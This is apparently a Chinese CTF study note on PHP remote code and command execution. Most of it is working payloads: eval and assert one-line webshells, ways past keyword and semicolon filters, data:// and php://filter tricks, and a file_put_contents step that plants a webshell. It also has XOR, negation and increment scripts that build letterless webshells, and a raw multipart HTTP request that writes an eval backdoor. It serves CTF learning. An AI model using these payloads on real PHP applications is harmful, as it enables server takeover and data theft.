



命令执行
eval内执行的是php代码 所以必须要以分号结尾
eval是代码执行函数
system是命令执行函数
cat是具体的函数
phpinfo();
system(’ls’) ; 当前目录
system(’ls%20/’) ;根目录
system(‘cat%20f*’);
代码执行函数
eval() ：结尾加分号
assert() ：结尾不加分号
call_user_func() :
1. <?php call_user_func("assert",$_POST['cmd']); ?>
//post:cmd=system(whoami) 蚁剑连接 cmd
2. <?php call_user_func($_POST["fun"],$_POST["para"])?>
//post:fun=assert¶=phpinfo();
create_function():
array_map():
call_user_func_array():
array_filter():
uasort():
preg_replace():
PHP中常见的命令执行函数与代码执行函数_红烧兔纸的博客-CSDN博客
eval函数和system函数的区别——代码执行漏洞和命令执行漏洞_php命令执行函数eval和system区别_美豆阿的博客-CSDN博客
命令执行函数
system():
passthru():
exec():
pcntl_exec():
shell_exec():
popen()/proc_popen():
echo(`ls`):
具体函数
cat
tac
more
nl
代码执行函数被ban
1.反字节符
echo(`ls`);
2.参数＋eval
eval($_GET[1];&1=phpinfo());
eval($_GET[1];&1=system('ls'));//这样只会识别到前面的 这是又传了一个参数，所以不会被检查
3.参数+include （这个没有分号‘；’）
include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
//其中的?>用来绕过分号，因为?>默认给你偷偷加了一个分号
4.写入木马
file_put_contents("aaa.php",%20%27<?php%20eval($_POST["cmd"]);%20?>%27);)
//将后面的代码写入aaa.php中 访问aaa.php 确认写入，蚁剑连接
5、6都需要一步一步去看这来：
//print_t(scandir(pos(localeconv())));可以看到当前目录
//print_r(scandir(getcwd()));也可以 getcwd()函数返回当前工作目录
5.使用pos(localeconv)来获取小数点
show_source(next(array_reverse(scandir(pos(localeconv())))));
//localeconv可以返回包含小数点的一个数组，用pos取数组中的第一个元素———小数点， 用scandir结合可以扫当前目录。
//然后re数组 取下一个数组元素 就是flag.php
//getcwd()函数返回当前的工作目录
6.
print(get_defined_vars());
eval(array_pop(next(get_defined_vars())));
//get_defined_vars()返回一个包含所有已定义变量的多维数组。这些变量包括环境变量、服务器变量和用户自定义的变量。
//array_pop()函数 删除数组中的最后一个元素并返回其值
7.通配符 直接匹配flag.php输出
code=?><?=`/???/??? ????.???`
8.过滤了函数：
code=?><?=`ls`;
web38
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
$c = $_GET['c'];
if(!preg_match("/flag/i", $c)){ //过滤了flag函数
include($c);
echo $flag;
}
}else{
highlight_file(__FILE__);
}
这里需要用伪协议绕过 但不能用filter 因为filter协议不加密输入的东西 只把输出的东西加密
使用方法为 data://text/plain;base64,内容 ：要写的命令用base64编码放入内容 <?php system('cat flag.php');?>
data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
无参RCE
参考链接
无字母数字webshell总结 - 先知社区 (aliyun.com)
0.或（ | ）
1. 异或（ ^ ）
c=("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%03%01%14%00%06%0c%01%00"|"%60%60%60%20%60%60%60%2a")
system("cat fla*")
代码
if(preg_match("/(\/|[A-Za-z]+)/",$code)) {
print("漏,你不能这样");
异或解析
在PHP中，两个变量进行异或时，先会将字符串转换成ASCII值，再将ASCII值转换成二进制再进行异或，异或完，又将结果从二进制转换成了ASCII值，再将ASCII值转换成字符串。
异或脚本
str = r"~!@#$%^&*()_+<>?:,.;-[]{}`\/"
needstr = "T" # 输入想要异或的字符串
dictin = {}
for c in range(len(needstr)):
for i in range(0, len(str)):
for j in range(0, len(str)):
a = ord(str[i]) ^ ord(str[j])
if needstr[c] == chr(a):
print('(' + '"' + str[i] + '"' + '^' + '"' + str[j] + '"' + ')' + ' ' + 'is' + ' ' + chr(a))
dictin[c] = chr(a)
高级版 可控
<?php
$shell = "a";
$result1 = "";
$result2 = "";
for($num=0;$num<=strlen($shell);$num++)
{
for($x=33;$x<=126;$x++)
{
if(judge(chr($x)))
{
for($y=33;$y<=126;$y++)
{
if(judge(chr($y)))
{
$f = chr($x)^chr($y);
if($f == $shell[$num])
{
$result1 .= chr($x);
$result2 .= chr($y);
break 2;
}
}
}
}
}
}
echo $result1;
echo "<br>";
echo $result2;
function judge($c)
{
if(!preg_match('/[a-z0-9]/is',$c))
{
return true;
}
return false;
}
<?php
$_ = "!((%)("^"@[[@[\\"; //构造出assert
$__ = "!+/(("^"~{`{|"; //构造出_POST
$___ = $$__; //$___ = $_POST
$_($___[_]); //assert($_POST[_]);
如果payload中有一些特殊字符，需要url编码
GET型构造
相当于传了两个参数 第一个是_ 第二个是__
payload:
code=$_=("$"^"{").("{"^"<").("{"^">").("}"^")");${$_}[_](${$_}[__]);&_=system&__=ls
让_GET=$_; ${$_}[_] = $_GET[_] 传参 参数名是_
system(ls);====${$_}[_](${$_}[__]);
POST型构造
assert($_POST[_]);
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
payload:
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']');$___=$$__;$_($___[_]);

2.取反（ ~ ）
情况：
如果过滤了 ^ 但没过滤 ~
取反脚本
s = "input"
for i in range(len(s)):
print('%'+str(hex((255)-ord(s[i]))[2:]),end='')
system -> %8c%86%8c%8b%9a%92
ls -> %93%8c%df%d0
合起来是 ?wllm=~(~%8C%86%8C%8B%9A%92)(~%93%8c%df%d0);
3.自增自减
原理：
"A"++ ==> "B"
只要得到ASCII的一个值就可以得到任何字符
php中如何得到A
当强制连接字符串和数组的时候 数组就会别转换成字符串 其值为 Array 取第一个就为A
<?php
$_=[].''; //得到"Array"
$___ = $_[$__]; //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___; //$__="A"
$_ = $___; //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //得到"S"，此时$__="S"
$___ .= $__; //$___="AS"
$___ .= $__; //$___="ASS"
$__ = $_; //$__="A"
$__++;$__++;$__++;$__++; //得到"E"，此时$__="E"
$___ .= $__; //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++; //得到"R"，此时$__="R"
$___ .= $__; //$___="ASSER"
$__++;$__++; //得到"T"，此时$__="T"
$___ .= $__; //$___="ASSERT"
$__ = $_; //$__="A"
$____ = "_"; //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //得到"P"，此时$__="P"
$____ .= $__; //$____="_P"
$__ = $_; //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //得到"O"，此时$__="O"
$____ .= $__; //$____="_PO"
$__++;$__++;$__++;$__++; //得到"S"，此时$__="S"
$____ .= $__; //$____="_POS"
$__++; //得到"T"，此时$__="T"
$____ .= $__; //$____="_POST"
$_ = $$____; //$_=$_POST
$___($_[_]); //ASSERT($POST[_])
php对大小写不敏感
用url编码
4.过滤了_
PHP中的短标签
<??> == <?php> //需要开启short_open_tag
<?=?> == <? echo> //默认开启

payload:
>?<?=`{${~"%a0%b8%ba%ab"}[%a0]}`?>
5.过滤了;
用短标签绕过
6.过滤了$
PHP7:
在PHP7中，我们可以使用($a)()这种方法来执行命令。这里我使用call_user_func()来举例(不使用assert()的原因上面已经解释过)。 我构造了
shell=(~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c)(~%8c%86%8c%8b%9a%92,~%88%97%90%9e%92%96,'');
其中
~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c是"call_user_func"，
~%8c%86%8c%8b%9a%92是"system"，
~%88%97%90%9e%92%96是"whoami"。 成功执行命令
PHP5:
php5不支持上面的方法来执行命令，
无字母数字webshell之提高篇 | 离别歌 (leavesongs.com)
1. Linux下可以用 . 来执行文件 2. PHP中POST上传文件会把我们上传的文件暂时存在/tmp文件夹中，默认文件名是/tmp/phpXXXXXX，文件名最后6个字符是随机的大小写字母
用这个来锁定临时文件 需要多传几次
. /???/????????[@-[]
可以根据实际
POST /?code=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?> HTTP/1.1
Host: xxxxxx:2333
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type:multipart/form-data;boundary=--------123
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 106
----------123
Content-Disposition:form-data;name="file";filename="1.txt"
echo "<?php eval(\$_POST['shell']);" > success.php
----------123--

这里可以直接一句话 上蚁剑
管道符的使用
if(!preg_match("/;|cat|flag/i", $c)){
system($c." >/dev/null 2>&1");
}//将结果重定向到空文件 错误也是 即丢弃
}
1," ; ": 执行完前面的语句在执行后面的语句。
2.“ | “: 显示后面的语句的执行结果。（文件名+|base64）
3.” || “：当前的语句执行出错时，执行后面的语句。前面的语句只能为假后面的语句才能执行。
4.” & “：两条命令都执行，如果前面语句为假则执行后面的语句，前面的语句可真可假。
5.” && “：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则执行两条命令，前面的语句只能为真。

...